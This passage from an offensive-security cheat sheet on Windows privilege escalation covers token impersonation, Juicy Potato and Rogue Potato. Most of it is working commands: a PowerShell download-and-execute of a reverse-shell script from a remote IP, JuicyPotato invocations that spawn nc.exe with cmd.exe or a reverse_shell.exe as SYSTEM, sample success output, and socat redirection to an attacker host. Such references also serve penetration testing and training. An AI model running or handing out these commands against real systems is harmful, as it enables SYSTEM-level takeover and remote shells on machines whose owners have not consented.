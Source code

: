```powershell
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```

### Juicy Potato (Abusing the golden privileges)

> If the machine is **>= Windows 10 1809 & Windows Server 2019** - Try **Rogue Potato**
> If the machine is **< Windows 10 1809 < Windows Server 2019** - Try **Juicy Potato**

* Binary available at : [ohpe/juicy-potato](https://github.com/ohpe/juicy-potato/releases)

1. Check the privileges of the service account, you should look for **SeImpersonate** and/or **SeAssignPrimaryToken** (Impersonate a client after authentication)

    ```powershell
    whoami /priv
    ```

2. Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object

    * [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise)
    * [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_8.1_Enterprise)
    * [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise)
    * [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro)
    * [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise)
    * [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter)
    * [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard)

3. Execute JuicyPotato to run a privileged command.

    ```powershell
    JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
    JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
    JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
        Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
        ......
        [+] authresult 0
        {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
        [+] CreateProcessWithTokenW OK
    ```

### Rogue Potato (Fake OXID Resolver)

* Binary available at [antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)

```powershell
# Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999

# RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. 
# Use this if you have fw restrictions.
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"

# RoguePotato all in one with RogueOxidResolver running locally on port 9999
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999

#RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
```